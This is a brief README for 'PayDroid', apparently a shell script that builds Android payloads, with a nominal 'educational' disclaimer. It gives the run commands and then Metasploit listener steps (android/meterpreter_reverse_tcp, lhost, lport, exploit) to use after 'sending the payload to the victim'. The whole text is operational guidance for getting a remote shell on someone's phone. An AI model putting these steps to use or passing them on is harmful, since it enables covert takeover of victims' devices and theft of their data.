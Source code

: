 PayDroid is a very simple tool made for educational purposees
So please don't use it for any malecious activity

Author = Anil Shrestha

uses
- cd PayDroid
- chmod +x PayDroid.sh
- ./PayDroid.sh

After sending the payload to the victim and starting the Listner
- set payload android/meterpreter_reverse_tcp
- set lhost your_ip
- set lport port_you_choosed
- exploit
